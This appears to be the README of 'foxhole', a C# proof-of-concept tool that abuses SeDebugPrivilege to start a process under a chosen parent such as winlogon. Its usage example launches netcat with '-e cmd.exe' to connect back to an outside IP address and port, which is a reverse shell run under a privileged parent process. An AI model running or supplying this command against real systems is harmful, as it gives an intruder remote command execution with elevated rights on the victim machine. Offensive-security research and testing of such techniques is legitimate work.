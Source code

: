 # foxhole
This C# code creates child process of parent process that you determine (SeDebugPrivelege PoC)

Usage example:
.\foxhole.exe -p winlogon -c "c:\temp\nc.exe 10.10.14.174 9998 -e cmd.exe"


TODO:
CI/CD
